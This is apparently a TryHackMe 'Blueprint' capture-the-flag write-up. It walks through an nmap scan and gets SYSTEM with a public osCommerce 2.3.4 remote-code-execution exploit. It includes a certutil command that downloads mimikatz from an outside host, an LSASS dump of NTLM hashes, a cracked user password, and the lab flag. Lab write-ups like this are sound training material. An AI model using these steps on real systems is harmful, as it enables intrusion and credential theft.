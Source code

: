 # Blueprint

## Solution

Starting with an nmap
```bash
cmd: sudo nmap -sC -sV -oN nmap/initial $IP

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49163/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m38s, median: 0s
| nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:d1:8d:ec:e5:cf (unknown)
| Names:
|   BLUEPRINT<20>        Flags: <unique><active>
|   BLUEPRINT<00>        Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-os-discovery:
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-31T17:00:38+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-31T16:00:39
|_  start_date: 2021-07-31T15:56:23
```

Woah, kinda long this output ... 

I started poking at the 8080 port just because yes, not for any particular reason

There we find that directory listing is enabled and it is possible to find the version for the software running 

```bash

# getting software version
From $IP:8080/oscommerce-2.3.4/docs/CHANGELOG/ ->  osCommerce Online Merchant v2.3.4

# searching for vulnerabilities
cmd: searchsploit oscommerce 2.3
osCommerce 2.3.4.1 - Remote Code Execution    | php/webapps/44374.py   # Does not work
osCommerce 2.3.4.1 - Remote Code Execution (2)| php/webapps/50128.py   # WORKS!!!
```

Anddd, hackerman, i'm in
```bash
cmd: whaomi
nt authority\system

# What the hell, already system?!?!?!
```

Alright, lets get the root flag then ahah

```bash
cmd: type C:\Users\Administrator\Desktop\root.txt.txt

THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

**Flag:** THM{aea1e3ce6fe7f89e10cea833ae009bee}

Now we need to dump the **Lab** user NTLM hash and crack it.. For this lets use mimikatz to dum LSASS creds from memory... 

Before uploading mimikatz to the machine, we need to figure the architecture first
```bash
cmd: SET processor
PROCESSOR_ARCHITECTURE=x86 # 32-bit machine
```

The box is kinda weird, but i managed to download mimikatz to the machine by using the following command: ```certutil.exe -urlcache -split -f "http://10.9.128.84/mimikatz.exe" mimikatz.exe```

This might be an actual windows procedure, but im starting in windows basically now so, yeah...


```bash
# mimikatz output
mimikatz # lsadump::lsa /patch
Domain : BLUEPRINT / S-1-5-21-3130159037-241736515-3168549210

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000003e8 (1000)
User : Lab
LM   :
NTLM : 30e87bf999828446a1c1209ddde4c450
```

John was tripping so i used crackstation (since this is supposed to be cracked, it is likely that it will be easy crackable)
```bash
Lab:30e87bf999828446a1c1209ddde4c450:googleplus
Administrator:549a1bcb88e35dc18c7a0b0168631411:Not Found
```

**Lab user password:** googleplus
